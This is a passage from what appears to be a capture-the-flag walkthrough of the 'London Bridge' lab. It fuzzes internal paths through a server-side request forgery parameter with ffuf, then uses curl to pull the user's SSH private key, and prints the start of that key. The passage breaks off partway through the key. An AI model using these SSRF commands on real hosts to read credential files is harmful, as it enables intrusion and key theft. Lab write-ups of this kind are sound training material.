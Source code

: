 ```bash
<img height=400px width=600px src="static/2.webp"><br>
<font type="monotype corsiva" size=18>Build it up with gold and silver<br>
    Gold and silver, gold and silver<br>
    Build it up with gold and silver<br>
    My fair lady<br>
    Gold and silver we've not got<br>
    We've not got, we've not got<br>
    Gold and silver we've not got<br>
    My fair lady<br>
<img height=400px width=600px src="static/3.jpg"><br>
    London Bridge is falling down<br>
    Falling down, falling down<br>
    London Bridge is falling down<br>
    My fair lady<br>
    London Bridge is falling down<br>
    Falling down, falling down<br>
    London Bridge is falling down<br>
    My fair beth</font>
</body>
</HTML>

```

`ffuf -u 'http://londonbridge.thm:8080/view_image' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'www=http://127.1/FUZZ' -mc all -t 30 -ic -fs 469`

```bash
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 384ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 399ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 373ms]
.                       [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 358ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 336ms]
.local                  [Status: 200, Size: 414, Words: 19, Lines: 18, Duration: 336ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 336ms]
```

> **Gathering Internal Files with SSRF**
> 

`curl -s -X $'POST' --data-binary $'www=http://127.1/.ssh/id_rsa' $'http://londonbridge.thm:8080/view_image' -o id_rsa`

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAz1yFrg9FAZAI4R37aQWn/ePTk/MKfz2KQ+OE45KErguL34Yj
5Kc1VJjDTTNRmc+vNRZieC8EwelWgpwcKACa70Ke2q/7zRLWHh23OUxWiSAAORTe
a1s5eus3ghTWjcfONROAkEg7O3XsNwgp93UUB8wbU+ADpZnFLPUDErFKoSp+dxG4
rxwqpAp6maqsE4dIZHdAq+Yt6/2HOERKrFWiONQpd6ZA8a325oWXY8UaREvKTuXc
jlL56t4iWQzsRQbBvB+ETg2ma01u/HmW3M9SyroPypcEOqvPnuPpqXHZu7BwALM5
NHhXCNmt+0EOBYKvejsDA6NeZfJgw65NVK+2hQIDAQABAoIBACJyZUaoBLegvMjg
2S32IZUcrr4qJrlCeOCUQDQp196tzlughf/rAwH9qpv9hXW+uYVhJZR/gxPPdm6W
Dlta1mIeuBLuHy9PDMDOAO0E0G9RIJha7iP5cJAJ2RvD6Gx/H7NTfQz64tQa39W4
hng0O9KbxoJleVWeONIiFZOaXiJthuro/d9GSivMBJyT8PR3JG6G+R4Qq1tAJqEU
Hx5DY/U7qVYQ1TE3EfbDR5y0+972fW7J0oZxOuwK6IWP9TtHcPPVIGweaIgZFys3
3ZFEzON5qRhNdV8lc127cUX5R5hFjn14GHJLpvbjkt8D9DggUKKNR8zPJfIGO5Tp
gdzclmECgYEA+kaVi0hq1sYSdZL4wHxDQJfGooPn8Hae8zFrsYjrVD8nOQ9NEz4N
XKqlGMhPc8P0PvuoKy1341ty966S8J+dKfdPzRURFzB84wy3A6CDnViRpCYwKFo0
Aa5wwpWZalBBpEis0h3YKCKVKyhs4/uN6lMw5H3GaCMdqqm00l9DRm0CgYEA1Bqq
e2pPYVCwyQb20/8aP305wu6Bdp+i3dUqkHndhPXmEL8EnXbEJuBymn7aKQ3Ln/zX
8G/7Mze845g93KAPFLeeNk/AmzXKnWB8mgcrFzxAD/wAxH1J9otLvhmX7BRVE6X/
0he6g1mdtNMXbt0B/aMOS+dCsMW1C/7oUfbxAXkCgYAlCvVvXBSUHVT2Gf6/XqUF
lnFL9IIL0ULNc+8go8dQ/NftVhpuUqzfnlI5TMyVsdcgy1akrWIlQI/PoQMWokk8
wOIK1Kdm60JQyLz9yHAyhb1osk5GarNv3EXMRyAh4CcXDbqmjsxDhHrXnHAhfkYO
/Kkr6IHJQAlQDTY6POdUMQKBgQCPPkMMfkuFyVzbJtzjZ1Futz+fKjw8xKrVbfUF
BYhZF0h83sRbI65tIv/C3xCu0SZHshaTxsy7VlU2z8ZXjbEhqLAstce6CqX/iv4b
```